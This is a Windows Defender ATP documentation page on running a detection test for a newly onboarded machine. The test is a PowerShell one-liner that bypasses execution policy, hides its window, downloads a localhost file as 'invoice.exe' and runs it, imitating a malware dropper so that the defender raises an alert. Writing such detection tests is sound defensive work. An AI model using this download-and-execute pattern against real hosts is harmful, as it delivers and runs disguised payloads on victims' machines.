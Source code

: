 ```yaml
---
title: Run a detection test on a newly onboarded Windows Defender ATP machine
description: Run the detection script on a newly onboarded machine to verify that it is properly onboarded to the Windows Defender ATP service.
keywords: detection test, detection, powershell, script, verify, onboarding, windows defender advanced threat protection onboarding, clients, servers, test
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: w10
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
ms.localizationpriority: medium
ms.date: 09/07/2018
---
```


#  Run a detection test on a newly onboarded Windows Defender ATP machine 

**Applies to:**
- Supported Windows 10 versions
- Windows Server 2012 R2
- Windows Server 2016
- Windows Server, version 1803
- Windows Server, 2019
- [Windows Defender Advanced Threat Protection (Windows Defender ATP)](https://wincom.blob.core.windows.net/documents/Windows10_Commercial_Comparison.pdf)


Run the following PowerShell script on a newly onboarded machine to verify that it is properly reporting to the Windows Defender ATP service.

1. Create a folder:  'C:\test-WDATP-test'.
2. Open an elevated command-line prompt on the machine and run the script:

    a.  Go to **Start** and type **cmd**.

    b.  Right-click **Command Prompt** and select **Run as administrator**.

    ![Window Start menu pointing to Run as administrator](images/run-as-admin.png)

3. At the prompt, copy and run the following command:

    ```
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'
    ```

The Command Prompt window will close automatically. If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded machine in approximately 10 minutes.

## Related topics
- [Onboard Windows 10 machines](configure-endpoints-windows-defender-advanced-threat-protection.md)
- [Onboard servers](configure-server-endpoints-windows-defender-advanced-threat-protection.md)